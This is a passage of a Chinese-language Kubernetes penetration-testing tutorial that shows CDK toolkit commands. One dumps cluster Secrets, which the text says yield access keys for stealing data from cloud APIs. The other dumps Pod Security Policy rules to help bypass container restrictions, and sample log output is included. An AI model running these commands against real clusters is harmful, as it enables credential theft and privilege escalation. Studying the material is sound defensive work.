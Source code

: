 ### Secret 类

K8s Secrets 用于存储敏感数据，从 Secrets 中获取的 AK 及通信凭证可用户后续渗透中从外部或云产品 API 窃取信息：

```bash
#命令格式
./cdk run k8s-secret-dump (auto|<service-account-token-path>)

#使用实例
./cdk run k8s-secret-dump auto
```

[![](assets/1701826061-1799cda5d905935dd35dd84708c81f00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025164428-b51a18e8-7312-1.png)

### 安全策略

对于已经获取了 kubeconfig 或 sa 账号权限，进而想要创建特殊配置的容器，但是受到了 K8s Pod Security Policies 的限制时可以使用这个 Exploit 获取 Pod Security Policies 的规则信息

```bash
#命令格式
./cdk run k8s-psp-dump (auto|<service-account-token-path>

#使用实例
./cdk run k8s-psp-dump auto
2021/03/24 22:15:58 getting K8s api-server API addr.
    Find K8s api-server in ENV: https://ip:8443
2021/03/24 22:15:58 trying to dump K8s Pod Security Policies with local service-account: token
2021/03/24 22:15:58 requesting  /apis/policy/v1beta1/podsecuritypolicies
2021/03/24 22:15:58 dump Pod Security Policies success, saved in:  k8s_pod_security_policies.json
2021/03/24 22:15:58 requesting  /api/v1/namespaces/default/pods
2021/03/24 22:15:58 K8S Pod Security Policies rule list:
2021/03/24 22:15:58 rule { securityContext.hostPID: true } is not allowed.
2021/03/24 22:15:58 rule { securityContext.hostIPC: true } is not allowed.
2021/03/24 22:15:58 rule { volumes[0].hostPath.pathPrefix: \"/proc\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[1].hostPath.pathPrefix: \"/dev\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[2].hostPath.pathPrefix: \"/sys\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[3].hostPath.pathPrefix: \"/\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_ADMIN\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_PTRACE\" } is not allowed.
```
